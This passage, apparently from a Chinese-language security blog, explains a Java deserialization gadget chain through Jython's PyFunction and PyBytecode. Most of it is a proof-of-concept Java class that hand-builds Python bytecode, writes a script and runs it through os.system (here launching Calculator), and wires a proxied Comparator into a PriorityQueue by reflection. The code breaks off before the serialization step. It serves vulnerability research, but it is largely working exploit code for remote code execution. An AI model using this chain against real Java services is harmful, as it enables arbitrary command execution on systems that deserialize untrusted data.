 虽然`PyFunctionTable`实现了`Serializable`接口, 但是这样动态加载的类无法经过序列化和反序列化流程, 对于动态生成的类, 反序列化过程使用的`ClassLoader`是无法找到这个类对象的. 因此可以使用`PyB​​ytecode`来替代`PyTableCode`作为`PyFunction`的`PyCode`. 只需要将恶意`python`代码的字节码初始化到`PyB​​ytecode`中, 再使用`PyB​​ytecode`来创建`PyFunction`即可.

# POC

```java
package org.h3rmesk1t.Jython;

import org.python.core.*;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.math.BigInteger;
import java.util.Comparator;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 10:36 上午
 */
public class JythonExploit {

    public static void main(String[] args) throws Exception {

        String path = "/Users/h3rmesk1t/Downloads/123.py";
        String code = "import os\nos.system('open -a Calculator.app')";

        String pythonByteCode = "7400006401006402008302007D00007C0000690100640300830100017C0000690200830000017403006401008301000164000053";

        // 初始化参数
        PyObject[] consts = new PyObject[]{new PyString(""), new PyString(path), new PyString("w+"), new PyString(code)};
        String[]   names  = new String[]{"open", "write", "close", "execfile"};

        // 初始化 PyBytecode
        PyBytecode bytecode = new PyBytecode(2, 2, 10, 64, "", consts, names, new String[]{"", ""}, "noname", "<module>", 0, "");
        Field      field    = PyBytecode.class.getDeclaredField("co_code");
        field.setAccessible(true);
        field.set(bytecode, new BigInteger(pythonByteCode, 16).toByteArray());

        // 使用 PyBytecode 初始化 PyFunction
        PyFunction handler = new PyFunction(new PyStringMap(), null, bytecode);

        // 使用 PyFunction 代理 Comparator
        Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

        PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
        Object[]              queue         = new Object[]{path, code};

        Field queueField = PriorityQueue.class.getDeclaredField("queue");
        queueField.setAccessible(true);
        queueField.set(priorityQueue, queue);

        Field sizeField = PriorityQueue.class.getDeclaredField("size");
        sizeField.setAccessible(true);
```